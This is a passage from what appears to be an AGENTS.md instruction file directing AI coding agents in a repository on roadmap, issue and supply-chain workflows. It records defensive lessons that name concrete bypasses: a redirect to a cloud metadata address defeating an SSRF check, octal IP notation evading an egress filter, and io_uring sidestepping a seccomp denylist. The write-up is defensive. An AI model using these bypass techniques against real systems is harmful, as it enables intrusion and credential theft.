   - **A keyword scan over prose is not a detector.** The self-hardening audit counted added lines containing one of five words — `mandate`, `rule`, `guardrail`, `prohibited`, `must always` — anywhere in the patch. It therefore accepted a line containing "rule" in an unrelated file as hardening `AGENTS.md`, and rejected a real guardrail written in the imperative, then reported "AGENTS.md was not updated" about a pull request that had updated it. Scope a detector to the artefact it is judging, count what the artefact actually gained, and make each failure state say which one it is — a verdict that misnames its own cause sends the reader to the wrong file.
   - **Never rebuild text by splitting on a marker and re-joining it.** `autonomous-triage.yml` extracted its comment with `plan.split(marker)` and then `marker + parts[1].trim()`, which ate the space in `Grounding — Issue #5` and posted `Grounding— Issue #5`. Split discards the separator, and any trim applied to the remainder silently removes more. Slice from the marker instead — `plan.slice(plan.indexOf(marker)).trim()` — so the only characters removed are the ones at the outer edges. The step is gated on `action == 'opened'` and had never executed; it was wrong on its first run, which is the normal outcome for formatting code no test and no run has ever reached.
   - **An empty result and a wrong query are not the same answer.** `recursive-hardening.yml` ran `git diff origin/BASE...MERGE_SHA`, and once a pull request is merged its commit is an ancestor of the base — so that three-dot range has the merge commit as its own merge base and yields an empty diff under squash, merge and rebase alike. The verifier read the empty patch as "AGENTS.md was not updated" and opened an issue accusing the author of skipping hardening they had done. On the merge that exposed it, the broken range produced 0 files and `MERGE_SHA^1..MERGE_SHA` produced 12. Any step that generates the input to a judgement must fail when that input is empty, because a merged pull request always changed something.
   - **A CLI path only CI invokes is a path only CI tests.** `sentinel.py` with no arguments scanned `node_modules` and exited non-zero on a vendored package. No workflow and no hook ever invoked it that way — CI passes explicit directories and pre-commit passes filenames — so the one entry point a contributor would reach for first was the one nothing covered. Assert the exit code of every documented invocation, not only the ones automation happens to use.

12. **Use GitHub Issues For Work That Must Outlive the Session**:
   - This repository already has two places work lives, and an issue is a third that is only worth opening when neither of the first two fits. Choosing wrongly is not neutral: a duplicate makes two records that drift, and a missing one makes work that gets re-derived from scratch every pass.

     | Surface | Holds | Lifetime |
     |---|---|---|
     | [`docs/ROADMAP.md`](./docs/ROADMAP.md) | Declared intent: deliverables and capabilities, sized and prioritized | Versioned; ingested by `roadmap_ingest.py` |
     | `.data/sdlc_backlog.json` | Findings a scan derives mechanically, reconciled every pass | Regenerated; gitignored; nothing survives that a scan cannot re-derive |
     | **GitHub issues** | Work that is **not derivable from the tree**, must survive this session, and needs a decision or a conversation | Until closed with a reason |

   - **Open an issue when:**
     - A finding is real but you are not acting on it now, and no scan will rediscover it — a defect you could not reproduce, a withdrawn review item worth revisiting, a judgement deferred pending information. The roadmap's `(blocked: reason)` contract covers *scheduled deliverables*; everything else has nowhere else to go, and [Observation 14](./observations/systems/14-defect-shaped-loops-and-the-feature-blind-spot.md) is what happens to work no instrument can see.
     - Something turns up mid-task that is genuinely out of scope. File it and link it from the pull request rather than widening the change; scope that grows silently is how a reviewable diff becomes an unreviewable one.
     - The next step needs a human decision — a policy question, a trade-off, an advisory finding whose response is judgement rather than a fix.
     - Automation needs somewhere to put a finding. `recursive-hardening.yml` opens one when a merged defect fix skipped its guardrail; that only works because issues are the substrate it writes to.
   - **Do not open an issue for:** work you are about to do in this session, a roadmap deliverable (`docs/ROADMAP.md` is the single source, and `landscape_survey.py` and `supply_chain_audit.py` emit there idempotently), or anything the workbench re-derives on every scan. A tracker that duplicates a generated backlog goes stale in exactly the way the backlog does not.
   - **Search before opening.** `gh issue list --search "<terms>" --state all`. Two issues describing one defect are the tracker's version of the divergent corpus definitions in [§10a.3](#10a-measuring-and-believing-what-you-measured): neither can be reconciled against the other.
   - **Label from the taxonomy the tooling already emits** — `observation`, `pattern`, `artifact`, `bug`, `roadmap`, falling back to `triage-needed`. `autonomous-triage.yml` applies these automatically on `opened` and `edited`, and `project_tooling.py triage-issue` is the same classifier, so a hand-applied label that disagrees with it will be silently corrected on the next edit.
   - **Close with the evidence, not just the state.** State what changed, where, and how it was verified. An issue closed with no reason is the CI log problem in a slower medium — see [§8.5](#8-autonomous-recursive-development-protocol--project-tooling).
   - **Link the pull request to the issue** (`Closes #N`) so merging closes it. An issue that outlives its fix is indistinguishable from one nobody worked on.
   - **An issue opened by `GITHUB_TOKEN` does not trigger `issues` workflows.** GitHub suppresses that recursion deliberately, and it is not visible anywhere in the workflow files. Verified here: `recursive-hardening.yml` created an issue and `autonomous-triage.yml` did not fire; the same issue edited under a user token triggered it immediately and classified it correctly. A workflow that must trigger another needs a personal access token, or it must do the downstream work inline.

---

## 9. Autonomous Innovative Self-Improvement & Mandatory Roadmap Evolution

To foster an autonomous, creative, and continuously self-improving engineering intelligence, AI agents operating in `vibes` must actively advance the repository's strategic roadmap:

1. **Automatic Roadmap Ingestion for Issues, Struggles, Challenges & Insights**:
   - Whenever encountering **any issue, struggle, friction point, debugging challenge, technical hurdle, cognitive barrier, or insight** during any task or interaction, AI agents **MUST AUTOMATICALLY ADD AN ITEM TO THE ROADMAP (`docs/ROADMAP.md`)** under the appropriate upcoming milestone or future research track.
   - Document the underlying friction and the proposed engineering solution or architectural guardrail to transform real-world engineering hurdles into permanent systemic capabilities.
   - The roadmap holds the *deliverable*. Where the item is instead a discrete piece of work needing a decision or a conversation, [§8.12](#8-autonomous-recursive-development-protocol--project-tooling) says to open an issue and which surface owns which kind of work.
2. **Automatic Roadmap Ingestion for Features, Suggestions & Integrations**:
   - Whenever identifying **features, constructive suggestions, workflow automations, refactoring ideas, or third-party integrations** that could improve the codebase, AI agents **MUST AUTOMATICALLY ADD ITEMS TO THE ROADMAP (`docs/ROADMAP.md`)** to design, track, and implement them.
   - Ground every innovative suggestion into measurable deliverables with clear Value vs. Effort positioning and acceptance criteria.
3. **Closing the Positive Feedback Loop**:
   - Every work generator in this repository is defect-shaped. The workbench reports decay, the sentinel reports invariant breaches, the quantifier reports smells — all of them answer *what is wrong with what exists*, and none answers *what should exist next*. Measured directly: with the repository certified at 100.0/100 the backlog held **0 items** while the roadmap held **11 open ones**. An agentic project can exhaust its mechanically-derivable work while everything it set out to build remains untouched, and the loop will report that state as success.
   - Run all three stages, in this order, so declared intent and measured defects reach one prioritizer:

     ```bash
     python3 tools/resource_iteration_workbench.py --export-backlog .data/sdlc_backlog.json
     python3 tools/roadmap_ingest.py --backlog .data/sdlc_backlog.json
     python3 tools/sdlc_project_manager.py sync --file .data/sdlc_backlog.json   # close what is fixed
     python3 tools/sdlc_project_manager.py next --file .data/sdlc_backlog.json
     ```

   - `sync` closes defect cards whose finding a scan no longer reports and promotes exactly one card to Ready. Add `--watch` to reconcile continuously.
   - A roadmap card cannot be judged by a scan's silence, so it is judged against ingestion: when the scan carries roadmap cards at all, that set is the complete list of *open* deliverables, and a card missing from it has been checked off. A defect-only export says nothing either way and leaves the roadmap untouched. Without that distinction the board kept recommending work that had already shipped.
   - A roadmap card's **declared** fields — priority, sizing, blocker, guidance — are re-read from the roadmap on every pass; its `lifecycle_state` belongs to the board and is never reset by a re-read.

4. **Look Outward as Well as Inward**:
   - Every generator listed above is inward-facing. None of them can observe that a capability treated here as finished is behind the field, or that a problem was solved better elsewhere. [`tools/landscape_survey.py`](./tools/landscape_survey.py) is the outward-facing generator and feeds the same prioritizer:

     ```bash
     python3 tools/landscape_survey.py refresh                 # facts from GitHub (network)
     python3 tools/landscape_survey.py report --out docs/landscape/SURVEY.md
     python3 tools/landscape_survey.py roadmap --top 4         # dry run; --write applies
     ```

   - **Text that leaves a quoting construct is data again, and a scanner that forgets this turns it back into syntax.** Three instances now, from three directions: a workflow `${{ }}` interpolated into `run:`, a contract answer rendered into YAML before it is parsed, and page text emitted into Markdown a model will parse — where a line beginning `#` becomes a heading in the prompt and a run of backticks closes the fence around it. The inverse costs as much: `docs_validator.py` scanned inline code spans for links, so every document *about* Markdown reported its own examples as broken — `[text](url)` in prose resolved `url` as a path. **Escape on the way out, mask on the way in, and size the delimiter from the content** — a fence must be longer than the longest backtick run it holds, or CommonMark closes it early.
   - **Two invariants can push in opposite directions, and satisfying one by moving code is not satisfying both.** The extractor's tag handling started as an `elif` ladder, which the sentinel refused at complexity 16 and depth 12. Splitting each branch into its own method satisfied that and breached the smell quantifier's God-class ceiling instead — 27 methods and 14 attributes against 20 and 7 — so the second gate was red on the change made to make the first green. Neither gate was wrong: one object was parsing, filtering chrome, assembling blocks and accumulating document facts at once. **The resolution is a seam, never a redistribution**: collaborators for the responsibilities (`ChromeFilter`, `BlockBuilder`, `PageContext`) and handlers as module-level functions in the dispatch table, because a handler is not part of the class's interface. Six attributes, five methods, both gates green.
   - **Never read a gate's verdict through `tail`.** The sentinel reported six subdomain violations and `| tail -2` showed two, which read as two isolated slips rather than a pattern across a file. The same truncation hid the true size of a scope measurement earlier in this repository's history. A gate's output is a whole verdict; pipe it to a file or read it entire, and never let a pager decide what a check found.
   - **Subclassing puts a base class's private attributes in your namespace.** `html.parser.HTMLParser` in CPython 3.14 keeps its own `_pending`, and its `close()` runs `self.rawdata += ''.join(self._pending)`. An extractor that used that name for its own buffer had its output fed back through the parser as page text on `close()` and escaped a second time, with nothing in any traceback naming the collision — the only symptom was literal brackets in the rendered output, and four increasingly baffled experiments before a `TypeError` from the stdlib finally named it. `_name` is a convention, not a scope. Assert the set of attributes a subclass introduces beyond its base, so the next collision fails a test instead of a reading.
   - **One `recv` is not a reply, and one write is not a message.** TCP delivers a stream, so a length-prefixed protocol must be read until the declared length has arrived. The RESP client took a single `recv` as the whole reply and its parser sliced past the end of the buffer without noticing, returning a short string with a plausible consumed count and no error — a cached value above roughly 16 KB came back silently clipped. A parser that cannot say *"not yet"* will always say something wrong instead.
   - **A server's instruction is a floor, not a ceiling.** The gateway computed `min(max_backoff_seconds, retry_after)`, so a 429 carrying `Retry-After: 60` slept 5 seconds and retried 55 seconds early — which is how a primary rate limit becomes a secondary one. A local cap bounds *your* exponential growth; it has no authority over what a peer asked for.
   - **An identity that includes an absolute path is an identity that changes with the checkout.** SARIF `partialFingerprints` hashed the raw filesystem path while the result beside it carried a repository-relative URI, so the same finding fingerprinted differently under `--root .` and `--root $PWD` — and a baseline recorded on a developer's machine suppressed nothing in CI, which is a baseline's only job. Normalise every component of an identity to something the environment cannot move.
   - **A grammar restated in your own code is a grammar that falls behind.** Five call sites across the documentation validator tracked fenced blocks by toggling a boolean on any line starting with ``` or ~~~, and CommonMark §4.5 says a closing fence must use the *same* character and be at least as long — so a `~~~markdown` block containing a backtick fence closed early, inverted the state, and every link, tag and heading after it was judged in the wrong context, silently. The link pattern captured everything up to `)` and swallowed the optional title, so `[Readme](README.md "The project readme")` resolved a path that exists nowhere. And the heading slugger folded runs and underscores that `github-slugger` preserves, which made it **accept two anchors in this repository's own AGENTS.md that are broken on GitHub today** — the corrected algorithm found them on its first run. One implementation of a grammar rule per repository, and where an external engine is the authority, say so and defer to it.
   - **An oracle that cites a reference must be measured against it, not written to resemble it.** The AST sentinel carried a hand-written list of branching constructs that stopped at `If`/`While`/`For`/`ExceptHandler`/`Assert`/`IfExp`/`BoolOp`, and the language moved on without it: comprehensions and `match` both scored **zero**, so four functions in this repository passed the M≤10 gate while radon scored them 11 to 13 and an eleven-case dispatcher — the shape §10.1 steers agents toward — measured 1. The smell quantifier's ceilings are pylint's, and it counted private methods against `max-public-methods`, `*args` against `max-args`, and the `def` and docstring against `max-statements`; real pylint reported nothing on all three fixtures. **`test_sentinel.py` now asserts agreement with radon over a corpus rather than restating the rules**, because a list of constructs falls behind the language and an agreement test does not. Where a reference is itself behind — radon scores `except*` as zero — diverge deliberately, state it, and assert the gate is never *laxer* than what it cites.
   - **An absent field is a decision you are making, not one the sender made.** The LSP hook matched severity against two explicit lists, so a diagnostic with `severity` omitted fell through both and a file carrying a hard compile error came back `is_clean=True` — the gate inverted, and the documented consumer therefore never called `send_feedback`. LSP 3.17 says an omitted severity is the client's to interpret and recommends Error, which is also the only safe reading: a server that declines to grade a finding has not said the finding is unimportant. **Decide the default explicitly and write down which way it fails.**
   - **Index bases and signal conventions are part of a protocol.** LSP `Position.line` is zero-based and every editor shows one-based numbers, so passing the raw value through pointed the self-healing loop one line above the defect — confirmed against a real `ruff server` reporting line 42 for a defect on line 43. In the same file a timeout branch hardcoded `exit_code=-1` while the success branch reported `proc.returncode`, where POSIX spells a signal death as `-N`: the placeholder claimed SIGHUP, a signal nothing there sends. Convert at the boundary, and never invent a value in a space that already means something.
   - **A body that arrives with an error status is not the page.** The crawler compared exactly one status code, 429, so 403, 404, 500 and 503 all had their error pages extracted as ordinary content, returned with no warning, and **recorded as successful crawls** — teaching the strategy store that a domain serving nothing but 404s was healthy. Its own `except` arm made it worse by synthesising a 500 whose body reads `Fetch error: [Errno 111] Connection refused`, laundering a refused connection into a page. A model cannot tell a server's explanation from the document it asked for by reading the text, so the status has to be carried, not dropped.
   - **Decoding is a specified algorithm, not a default.** WHATWG HTML §13.2.3.2 gives the order: BOM, then the transport charset, then a prescan of the first 1024 bytes for `<meta charset>`, then UTF-8. `httpx`'s `res.text` implements the middle and the end, so a page declaring `windows-1252` in a meta tag arrived as mojibake and a UTF-8 BOM survived into the output as an invisible zero-width character. Both silent, and both **irreversible** — a fetcher that returns `str` has thrown the bytes away before any caller could notice.
   - **An agreement test is only as good as the cases it disagrees on.** The first version of `test_address_policy_agreement.py` compared five implementations across 22 canonical addresses and passed — while four of the five still failed **open** on an octal dotted quad, the exact notation §10a already told us a strict parser refuses and a resolver accepts. The rule had been written into this file when *one* copy learned it, and the test that was supposed to spread it held no case that could tell the copies apart. **Seed a corpus with the cases the rule exists for, not the cases that are easy to write down** — and prefer importing the policy to copying it wherever the import is allowed, which for anything under `tools/` it always is.
   - **A policy that cannot be imported will be copied, and copies drift.** The address policy lived in five places — `tools/sanitization_policy.py` plus three standalone exhibits that may not import from `tools/`, and a documentation rule — and four had delegated to `ipaddress.is_private` behind a message reading "RFC 1918". Each therefore blocked `0.0.0.0`, `255.255.255.255`, RFC 2544 benchmarking space, reserved `240.0.0.0/4` and IETF protocol assignments under a clause covering none of them, and **none scanned IPv6 at all**, so `http://[fd00::1]/` walked through every private-egress guard untouched. Where the copy-pasteable-exhibit rule forces duplication, **assert the copies agree on a shared corpus** — `tests/test_address_policy_agreement.py` compares all five on every address, which is the shape `test_source_tree_policy.py` already uses for the corpus definition.
   - **A regex over an address or a hostname is a candidate finder, never a validator.** `ipaddress.ip_address` is the authority: match anything with two or more colons and let the parser refuse `12:34:56`. The previous IPv6 pattern demanded two to seven full groups and so missed every compressed address — `fe80::1234`, the commonest form there is. And case-fold a host before comparing it: DNS is case-insensitive per RFC 4343, so a case-sensitive check is one an attacker disables with the shift key.
   - **`is_private` is not RFC 1918.** CPython documents it as "not globally reachable by iana-ipv4-special-registry", which also covers `0.0.0.0`, `255.255.255.255`, link-local and the benchmarking ranges — so the sanitization rule rejected `endpoint: 0.0.0.0:4317`, a bind-to-all directive naming nobody's machine, as a homelab leak. Enumerate the ranges a rule means. A convenience predicate from the standard library answers *its* question, not necessarily yours.
   - **A check on the value a caller supplied is not a check on what the process does.** The crawler validated its URL once against private and link-local ranges, then handed it to a client with `follow_redirects=True`. RFC 9110 §15.4 permits a user agent to follow `Location` automatically and httpx offers no hook that can veto the next connection, so any public page answering `302 Location: http://<link-local metadata address>/` returned the cloud credential document as page content — and the strategy store recorded it as a successful crawl. **Put the check where the connection is opened, not where the intent is expressed**, and revalidate every hop. Redirects are followed by hand now, with a ceiling, because RFC 9110 sets none.
   - **A strict parser's rejection is not the same as "not an address".** `_check_private_ip` wrapped `ipaddress.ip_address` in `except ValueError: return False`, and the stdlib deliberately refuses any octet with a leading zero — while `inet_aton` and every libc-backed client still read it the historical way. The one notation an attacker would choose was the one notation that sailed through the egress guard. **A parser that is stricter than the consumer must fail closed**, or it is a filter for well-formed inputs only.
   - **SIGTERM is a request, and a wait with no bound turns a timeout into advice.** `_kill_process_group` sent SIGTERM and the caller then ran `communicate()` with no timeout, so a child that ignored the signal held a 0.5-second contract open for its full 120-second sleep. Escalate to SIGKILL after a stated grace period; SIGKILL cannot be caught, blocked or ignored.
   - **A denylist must cover every path to the operation, not every name for it.** The seccomp network group denied `socket`, `connect`, `bind` and the rest, and left `io_uring_setup` reachable — a ring submitting `IORING_OP_SOCKET` and `IORING_OP_CONNECT` opens a connection without issuing any of the denied calls, so the filter reported network isolation as ENFORCED while enforcing nothing. Container runtimes disable io_uring for exactly this reason. Ask what *else* reaches the resource, not what else the call is called.
   - **A state machine that cannot be told where it starts assumes the safe case.** The reasoning sanitizer could only begin in EMITTING, so a model whose template opens the thought in the *prompt* — leaving the completion carrying only a closing tag — had its entire chain of thought emitted as visible output by the component whose sole job is to prevent that. The initial state is a parameter, and an unopened closing tag is now counted so a caller who got it wrong finds out.
   - **Self-consistency is not conformance, and the internal perfection is what hides it.** Every gate here takes its ground truth from inside the tree — the sentinel from the AST, coverage from the tests that exist, the documentation validator from paths in the repository — so every gate converges to agreement and none of them can be surprised. Four capabilities built to close survey gaps each turned out to have an existing implementation that was already wrong, at the seam with something this project does not control: a kernel, a wire format, a published convention, a downstream parser. **A capability gap is a lens, not only a feature request** — the gap and the defect share one cause, which is that nobody had compared that capability to anything outside itself. Before extending a capability, find what it is supposed to conform to and check the existing implementation against it first. See [Observation 19](./observations/systems/19-self-consistency-is-not-conformance.md).
   - **Audit the fallback path first, because it is the path.** The sandbox's engine-less mode runs whenever `docker` and `podman` are absent, which is most machines and most CI jobs; the crawler's static tier is its default. Both were the ones with the defect, and both had inherited the primary path's score. A fallback is selected by the ordinary conditions, not the exceptional ones, and where it cannot enforce something, naming that control and the reason is a smaller and truer claim than borrowing the number next to it.
   - **A wire format is not a convention, and nothing downstream will tell you which one you emitted.** The agent trace generator emitted valid OTLP carrying `ai.tokens.prompt`, `ai.model.name` and `agent.persona`, with every span kind hard-coded to `INTERNAL`. Every collector accepted it; no GenAI-aware backend could chart any of it. A span with the wrong key is never rejected — it never appears in the dashboard built to read it, and an empty dashboard reads as *no traffic*. **Take a published convention from where it is defined, at a pinned revision, and derive the table rather than restating it** — [`tools/semconv_snapshot.py`](./tools/semconv_snapshot.py) fetches the upstream model and writes the snapshot the exhibit reads, so the table cannot drift from its source without a visible diff, and the provenance is printed beside the findings.
   - **A renamed key is a silent outage; a moved definition is not a rename.** `gen_ai.usage.prompt_tokens` became `gen_ai.usage.input_tokens`, and a query on the old key returns zero rows, which renders as no traffic rather than wrong key — the outage is in the reading, so nothing is red. Emitting a renamed key is an error. But the same upstream table marks every GenAI attribute deprecated with the reason `moved`, because the conventions changed repository, and reading that before the live registry reported thirty correct attributes as obsolete. **The live definition wins**, and a classifier over deprecation prose must place every entry in exactly one outcome and refuse the ones it cannot read.
   - **Never write a `# noqa` for a rule this project does not select.** `RUF100` reports an unused directive as its own finding, so suppressing a rule outside `select = E4,E7,E9,F,I,UP,B,SIM,RUF` swaps one lint error for another. I have made this exact mistake four times in one session — `S603`, `BLE001`, `E402`, `N802` — each time reaching for the suppression a different linter would have wanted. Check the `select` list before writing a directive, and where the code genuinely needs explaining, write a comment: a comment is never wrong, and a suppression for a rule nobody runs is always wrong.
   - **Every metric is a row in [`tools/metric_reference.py`](./tools/metric_reference.py), and the row is written before the code.** A row naming a `reference` means **we do not compute it** — call the adapter. A row with no reference must say why in at least 40 characters *and* carry a `Witness`: an executed comparison showing what the candidate got wrong. Cyclomatic complexity had **seven** implementations here — four under `examples/`, two under `tools/`, one under `benchmarks/` — and only the first four were ever covered by §1a's exhibit exemption. **Direction decides adoptability**: a reference stricter than the gate can be adopted, because it never lets through what we would have caught; a laxer one is the defect. radon scores `[r for r in rows if r.a if r.b]` at 4 where ruff's C901 passes it at `max-complexity = 1`, so complexity is radon's; ruff's PLR1702 does not count `match` as nesting at all, so nesting depth stays ours — both recorded as witnesses the test suite re-runs rather than remembers.
   - **A reference that could not measure must never report a clean run.** `ruff check --select X --output-format json` on a path it cannot read warns on stderr, prints `[]` and **exits 0**, while plain `ruff check` on the same path exits 1. Reading the findings alone turns *not linted* into *clean* — the `TargetIntegrity` defect this repository already guards against, walking back in through the delegation seam. Every adapter verifies coverage and raises `MetricsUnavailable` rather than returning an empty list.
   - **Integrate first, extend only where nothing upstream reaches.** The documentation validator parsed Markdown with regular expressions while `markdown-it-py` — a declared dependency whose manifest comment reads "CommonMark parser backing the documentation validator" — sat imported in the same file. Driving the rules off its token stream did not *fix* six findings, it **dissolved** them: a link title is an attribute, a `[text](url)` in a code span is a `code_inline` child, an indented chunk is a `code_block`, a multi-line comment is one `html_block`, and a setext heading is a `heading_open`. What remains is genuinely ours and stays — resolving a target on disk, checking an anchor GitHub would emit, WCAG contrast, the directory map, observation structure. **The library supplies structure; the repository supplies judgement.**
   - **A library's defaults are part of its contract, and they are tuned for its usual job.** `markdown-it` refuses `file:`, `data:` and `javascript:` destinations through `validateLink`, because it is a renderer and those are how a hostile document attacks one. This validator has a rule that exists specifically to report `file:///` links, so the parser was dropping them before the rule could see them. Read what a dependency does by default before concluding it does nothing — and override through the type system rather than by assigning over a method.
   - **A gap is a question, not an instruction to build.** The survey defined a gap as "a cited alternative has this feature and the matching capability here does not", which is already the answer *build it* before anyone has asked whether to use the alternative instead. That framing is upstream of the 59 audit findings raised against components which reimplemented a solved problem — and two of those reference implementations were **already declared dependencies**, with `pyproject.toml` stating what they were for. Every gap now carries a disposition:
     - `integrate` — a cited alternative ships a package this repository already depends on. The cheapest gap there is and the one most often missed; ranked first.
     - `adopt` — the alternative declares itself adoptable and says why it clears §1a's bar. Evaluate it before writing anything.
     - `build` — no adoptable alternative holds it, or the capability declares the feature `build_only` because it is the differentiator and must not be delegated away.
     Declared, never inferred, exactly as `kind` is: an alternative records its `package`, its `license` and whether it is `adoptable`, each verified against the registry rather than assumed. **When evaluating the landscape, ask what to adopt and integrate, not only what to write.**
   - **Never assert a third-party capability without citing it.** In [`docs/landscape/capabilities.yaml`](./docs/landscape/capabilities.yaml) a feature is claimed by adding it under an alternative's `has:` key, and the value of that key *is* the evidence. A feature in neither `has:` nor `lacks:` is unknown and can never become a gap.
   - The structure forces a citation but cannot check that the citation supports the claim — the first draft of that manifest cited "Wraps radon; Python only" as evidence a tool was multi-language. Read the evidence you write, and expect a reader to overturn it: every citation travels onto the roadmap item for exactly that reason.
   - A survey establishes that a capability exists elsewhere, never what it is worth here. Emitted items carry no matrix row on purpose and are ranked on defaults until a human records a judgement.
   - `discover` proposes candidates; it never adds them. Search ranking is not evidence of comparability, and a survey that ingested its own search results would be citing itself.
   - **A mock domain must not perform live network queries during test suites.** In `test_crawler.py`, requests to `example.com` triggered repeated `socket.getaddrinfo` round-trips over public DNS, inflating suite execution duration to 2.62s and breaching the 2.0s fast-feedback ceiling. Intercepting `example.com` lookups in test harnesses guarantees deterministic, sub-second execution (< 1.5s) without live network dependencies or DNS flakiness.
   - **Subprocess timeout and escalation grace periods must be parameterized and bounded in test suites.** In `test_hook_sentinel.py`, testing command timeouts and signal escalation with hardcoded multi-second delays inflated suite execution to 3.23s, violating the 2.0s fast-feedback ceiling. Parameterizing both timeout duration and grace periods (e.g. `timeout_seconds=0.1`, `grace_seconds=0.15`) drops suite execution to 0.71s while fully exercising SIGTERM-to-SIGKILL escalation paths deterministically.
   - **CLI entry points and multi-format emitters must decompose parser construction and output formatting.** In `generator.py`, coalescing argument parsing, formatting branches, and transport error handling inside `main` elevated McCabe complexity to 8. Decomposing entry points into dedicated single-responsibility helpers (`_build_cli_parser`, `_dispatch_cli`, `_export_otlp_stream`, `_emit_session_json`) drops runner complexity from $M=8 \to M=1$, maintaining comfortable architectural headroom ($M \le 5$, depth $\le 2$) well below invariant thresholds.
   - **Resolver-compatible address parsers and network filters must isolate octet parsing from membership testing.** In `sentinel.py`, combining dotted-quad octet decoding with network version matching inflated McCabe complexity to 9 across `_parse_address` and `_is_prohibited_ip`. Factoring octet verification into `_parse_dotted_quad` and network membership into `_in_network_list` drops complexity to $M \le 5$, depth $\le 2$ while fully preserving the 22-address policy agreement invariant.
   - **Agreement tests against reference libraries must invoke in-process APIs rather than shelling out to CLI subprocesses.** In `test_sentinel.py`, verifying AST complexity agreement against radon by spawning `subprocess.run([sys.executable, "-m", "radon", ...])` across 20 corpus cases inflated test duration to 8.29s, severely breaching the 2.0s fast-feedback ceiling. Calling radon's Python API in-process (`radon.complexity.cc_visit`) drops execution time to 0.41s while executing identical reference verification logic.
   - **Forked kernel probes and pipe-based communication must isolate child execution from parent stream reading.** In `syscall_filter.py`, nesting child setup, filter installation, exception catching, and parent pipe reading inside `_probe` drove nesting depth to 4. Factoring the child process logic into `_probe_child` and result reading into `_read_probe_result` caps nesting depth at $\le 2$ across all probe routines while maintaining kernel-enforced confinement verification.
   - **A waiver recognized by the gate must also be recognized by the workbench.** `tools/resource_iteration_workbench.py` performed an AST check for private addresses without inspecting module-header `# sentinel: allow[ZeroTrustSanitization]` waivers, falsely penalizing legitimate policy definitions (`sanitization_policy.py`, `sentinel.py`, `hook_sentinel.py`, `fuzzer.py`) and dropping `invariant_compliance` below 1.0. An oracle that evaluates invariant health must honor the identical waiver pragmas that the invariant's gate accepts.

5. **Review the Supply Chain, Not Only the Manifest**:
   - [`tools/supply_chain_audit.py`](./tools/supply_chain_audit.py) inventories four things, because a dependency review that reads `pyproject.toml` alone misses most of what executes:

     ```bash
     python3 tools/supply_chain_audit.py inventory            # requirements, actions, packages, egress
     python3 tools/supply_chain_audit.py audit [--strict]     # risks, severe first
     python3 tools/supply_chain_audit.py fix [--write]        # mechanical repairs only
     python3 tools/supply_chain_audit.py roadmap [--write]    # the rest, as deliverables
     ```

   - **Actions are code that runs with repository credentials.** `uses: x@v7` is a tag the upstream can repoint at any commit. Pin to the 40-character SHA and keep the tag as a trailing comment — a bare hash tells a reader nothing about which version they are on, and a pin nobody can read is a pin nobody will update.
   - **A `>=` floor is a compatibility claim, and CI never checks it.** CI installs the newest release, so the configuration the gates certify is the newest one. `pytest>=8.0` while 9.x is tested asserts something no run has verified. Below 1.0 the *minor* carries compatibility, so `ruff>=0.6` against 0.16 is the same drift.
   - **A package installed mid-workflow is a dependency.** `npm install jsdom` with no version executes different third-party code on every run and appears in no manifest. Pin it.
   - **Egress means genuinely external.** Loopback, RFC 1918, link-local and RFC 5737 addresses are local services or the sanitization mandate's own placeholders; reporting them as network risk buries the one endpoint that matters under a dozen that do not. That judgement is deliberately separate from `sanitization_policy.is_documentable`, which answers a different question.
   - **Fix what is mechanical, schedule what needs judgement.** Raising a floor and pinning a SHA are reversible rewrites with a verifiable outcome. Choosing a replacement for an unmaintained dependency is not, so it becomes a roadmap proposal instead of an edit. After any `--write`, re-run the full gate set before committing.

6. **Record a Deferral, Do Not Re-Decide It**:
   - Passing over the same item twice on the same grounds is a defect in the loop, not a preference. The prioritizer has no memory, so an unrecorded judgement is re-derived — and re-litigated — on every pass.
   - Annotate the roadmap item itself. The reason is mandatory and travels with the card:

     ```markdown
     - [ ] **Some Deliverable (P1 - High)** (blocked: needs live review threads this repo does not produce):
     ```

   - `roadmap_ingest.py` lifts the reason into `blocked_reason`, and the prioritizer refuses to schedule the item on **every** path. Blocking only the implement path is not enough: the fallback simply returned the same card under a different action type.
   - Deferred items are **printed alongside the recommendation**, never hidden. The risk with a deferral is not that it is wrong but that it becomes permanent unnoticed. Removing the annotation is the entire cost of re-enabling the work.
   - Do not express a deferral by deleting the item, marking it rejected, or lowering its priority. Those destroy the reason; only the blocker preserves it.

   - Defects outrank features by construction, so a healthy repository advances the roadmap and an unhealthy one repairs itself first. Items whose value and effort are absent from the prioritization matrix are ranked on defaults and say so: add a matrix row to rank one deliberately rather than by assumption.
   - Rejected work is never ingested. The roadmap's anti-pattern rows record decisions *not* to build things, and a loop that schedules them has inverted the decision it was given.

---

## 10. The Five Mechanical Oracles & Defensive Engineering Invariants

Stochastic language generation must always be bounded by deterministic mechanical oracles. AI agents operating in `vibes` must strictly comply with the following five mechanical breakthroughs:

1. **Table-Driven Dictionary Dispatch (AST `elif` Flattening)**:
   - Python's AST parser (`ast.If`) nests each `elif` inside the `orelse` block of the preceding branch, causing visual ladders to explode nesting depth ($depth > 8$).
   - Multi-branch conditional dispatchers must be decomposed into module-level lookup dictionaries (`_<FN>_DISPATCH.get(key, fallback)`), collapsing complexity and depth to $1$.
2. **Structural Tuple Equality Consolidation (Mitigating Assertion Sprawl)**:
   - Under Python AST semantics, every `assert expr` statement compiles to `if not (expr): raise AssertionError`, adding $+1$ to McCabe complexity.
   - When asserting multiple object attributes or properties in test suites, agents **MUST CONSOLIDATE LINEAR ASSERTIONS INTO STRUCTURAL TUPLE EQUALITY CHECKS** (`assert (actual_a, actual_b) == (expected_a, expected_b)`) or collection predicates (`assert all(...)`). This prevents linear test code from breaching $M \le 10$ while preserving Pytest element-level diff diagnostics.
3. **Negative Tool Contract Assertions & Prescriptive Prompts**:
   - Tool schemas must enforce strict parameter boundaries by forbidding undeclared arguments (`extra="forbid"` in Pydantic v2, `additionalProperties: false` in JSON Schema).
   - On contract failure, verification handlers must synthesize prescriptive error prompts detailing allowable arguments to enable deterministic zero-shot self-correction.
4. **POSIX Process Group Containment (`start_new_session=True` & `os.killpg`)**:
   - Subprocesses spawned via `subprocess.Popen` must never be killed with simple `proc.kill()`, which leaves child subshells or grandchild processes running as zombie leaks.
   - Always isolate spawned processes into dedicated process groups (`start_new_session=True` on `subprocess.Popen`) and terminate via `os.killpg(os.getpgid(proc.pid), signal.SIGTERM/SIGKILL)`. Avoid `preexec_fn=os.setsid` in multithreaded runtimes to prevent fork-deadlocks.
5. **Defensive Filesystem, Symlink & Resource Containment**:
   - Always enforce pre-flight file size caps (`MAX_FILE_SIZE_BYTES` $\le 5$MB) before reading files into memory to mitigate denial-of-service from minified bundles or binary dumps (CWE-400).
